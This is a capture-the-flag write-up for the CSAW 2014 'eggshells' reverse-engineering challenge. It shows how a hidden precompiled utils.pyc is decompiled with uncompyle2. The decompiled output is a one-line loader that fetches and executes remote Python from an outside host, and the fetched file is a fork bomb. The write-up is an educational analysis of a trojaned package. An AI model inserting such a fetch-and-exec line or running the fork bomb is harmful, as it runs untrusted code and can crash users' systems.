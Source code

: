 Title:  CSAW CTF 2014 - Reverse Engineering 100: "eggshells"
Date: 2014-09-22 9:20
Category: Reverse Engineering
Tags: CTF, CSAW, uncompyle2



This is the first exploitation problem and it starts with the following text:

> I trust people on the Internet all the time, do you?
>
> Written by ColdHeat
>
> eggshells-master.zip



## Unzipping and Analyzing the Files

Let’s unzip the provided zip file:

```sh
$ unzip eggshells-master.zip
```

This creates a directory called *eggshells-master* that contains several *Python* and *exe* files. Let us look closer to the contend of this folder:

```sh
$ tree .
├── capstone.py
├── distorm.py
├── interpreter.py
├── main.py
├── nasm
│   ├── LICENSE
│   ├── nasm.exe
│   ├── ndisasm.exe
│   └── rdoff
│       ├── ldrdf.exe
│       ├── rdf2bin.exe
│       ├── rdf2com.exe
│       ├── rdf2ihx.exe
│       ├── rdf2ith.exe
│       ├── rdf2srec.exe
│       ├── rdfdump.exe
│       ├── rdflib.exe
│       └── rdx.exe
├── nasm.py
├── server.py
├── shellcode.py
├── utils.pyc
└── wrapper.py
```

Do you see anything unusual?


## Decompiled a pre-compiled Python File

A pre-compiled Python file stands out in this list: *utils.pyc*. We need to decompile it. For this task we use  [uncompyle2], which can be installed with:

```sh
$ sudo pip install uncompyle2
```

Let's learn a bit more about this tool with ```uncompyle2 --help```. The usage is straightfoward, but it's a good knowledge to learn about the *-o* flag, which will decompile to a *.dis* file instead of *stdout*:

```sh
Usage: uncompyle2 [OPTIONS]... [ FILE | DIR]...

Examples:
  uncompyle2      foo.pyc bar.pyc       # decompile foo.pyc, bar.pyc to stdout
  uncompyle2 -o . foo.pyc bar.pyc       # decompile to ./foo.dis and ./bar.dis
  uncompyle2 -o /tmp /usr/lib/python1.5 # decompile whole library

Options:
  -o <path>     output decompiled files to this path:
                if multiple input files are decompiled, the common prefix
                is stripped from these names and the remainder appended to
                <path>
                  uncompyle -o /tmp bla/fasel.pyc bla/foo.pyc
                    -> /tmp/fasel.dis, /tmp/foo.dis
                  uncompyle -o /tmp bla/fasel.pyc bar/foo.pyc
                    -> /tmp/bla/fasel.dis, /tmp/bar/foo.dis
```

We could also use *.py* extension if we like:
```sh
  --py          use '.py' extension for generated files
```

Also, we learn about all the possible outputs:
```sh
 Extensions of generated files:
  '.pyc_dis' '.pyo_dis'   successfully decompiled (and verified if --verify)
  '.py'                   with --py option
    + '_unverified'       successfully decompile but --verify failed
    + '_failed'           uncompyle failed (contact author for enhancement)
```

All right, no more diverging. Let's play! We run the ```uncompyle2``` command and obtain the following:
```sh
$ uncompyle2 utils.pyc
#Embedded file name: /Users/kchung/Desktop/CSAW Quals 2014/rev100/utils.py
exec __import__('urllib2').urlopen('http://kchung.co/lol.py').read()
+++ okay decompyling utils.pyc
# decompiled 1 files: 1 okay, 0 failed, 0 verify failed
```


## Parsing the Result and Voilà

So all that this file does is in this line:
```python
exec __import__('urllib2').urlopen('http://kchung.co/lol.py').read()
```

To understand this code, we need to know that Python's [exec] method performs dynamic execution of code.  In this problem, *exec* starts importing [urllib2], which is a library for opening URLs.  It has the method [urlopen()] to open the URL url, which can be either a string or a request object. This function returns a file-like object with three additional methods. Finally, [read()] would read this returned file.

So all that this script does is to try running a Python file that is hosted online!
Well, let's see what this file does! Let's just *curl* [http://kchung.co/lol.py]:

```sh
$  curl http://kchung.co/lol.py
import os
while True:
    try:
        os.fork()
    except:
        os.system('start')
# flag{trust_is_risky}
```

Yaaay! The flag is **trust_is_risky**! Easy!

**Hack all the things!**


[uncompyle2]: https://github.com/gstarnberger/uncompyle
[http://kchung.co/lol.py]: http://kchung.co/lol.py
[exec]: https://docs.python.org/2/reference/simple_stmts.html#exec
[urllib2]: https://docs.python.org/2/library/urllib2.html#module-urllib2
[urlopen()]: https://docs.python.org/2/library/urllib2.html#urllib2.urlopen
[read()]: http://www.tutorialspoint.com/python/file_read.htm



----

**Aloha, Mia**